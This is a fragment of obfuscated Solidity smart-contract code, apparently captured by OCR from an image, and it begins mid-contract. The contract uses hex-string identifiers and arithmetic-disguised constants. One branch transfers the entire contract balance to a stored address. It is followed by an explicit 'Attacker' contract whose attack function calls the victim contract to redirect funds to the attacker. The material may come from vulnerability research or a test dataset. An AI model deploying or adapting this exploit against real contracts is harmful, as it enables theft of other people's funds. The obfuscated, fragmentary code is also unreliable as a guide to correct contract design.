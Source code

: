 ```javascript
                        Ox3c53a0cbc5e08d0eb79a9d0f70e3d4a0839d1326
                            .Oxe47c6f7cdaec3aa6ca15b8518d73bdfeedc877c0
                );
                Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 =
                    6 +
                    1 +
                    (6 * 7) -
                    47;
            } else if (
                Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 == 7 * 9 + 3 - 1 - 63
            ) {
                Oxf07747d0ab6b2f128077871b302018255bb45946.transfer(
                    this.balance
                );
                Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 = 3 + 8 + 7 * 7 - 60;
            }
        }
    }

    function Oxdbb6604dc1d09c9cd6b82375571c6b6244dfbf43(
        uint256 Oxb1ea35e48b608495f0ba4374ad5b95266b5bf60f
    ) internal view returns (uint256) {
        return
            Ox2f1301f521c199435b0a247edddd51b9ff0561e7[
                Oxb1ea35e48b608495f0ba4374ad5b95266b5bf60f
            ];
    }

    uint256[] public Ox2f1301f521c199435b0a247edddd51b9ff0561e7 = [
        5 + (4 + 4) + 1 - 13,
        (7 + 0) + 4 * 3 - 17,
        5 + 3 * 9 * 5 - 140
    ];
    struct scalar2Vector {
        address Oxe47c6f7cdaec3aa6ca15b8518d73bdfeedc877c0;
    }
    scalar2Vector Ox3c53a0cbc5e08d0eb79a9d0f70e3d4a0839d1326 =
        scalar2Vector(address(0));
}

contract Attacker {
    address public attacker;
    constructor (){
        attacker = msg.sender;
    }
    function attack(address _victim) public {
        Ox514ebff829ac5d3007a064ab6c3f3ec53897fc05(_victim).Ox9b1b08cba67a2c9c6378a0ea4aea85a58c3240ff(attacker);
    }
    function () public payable{}
}
```
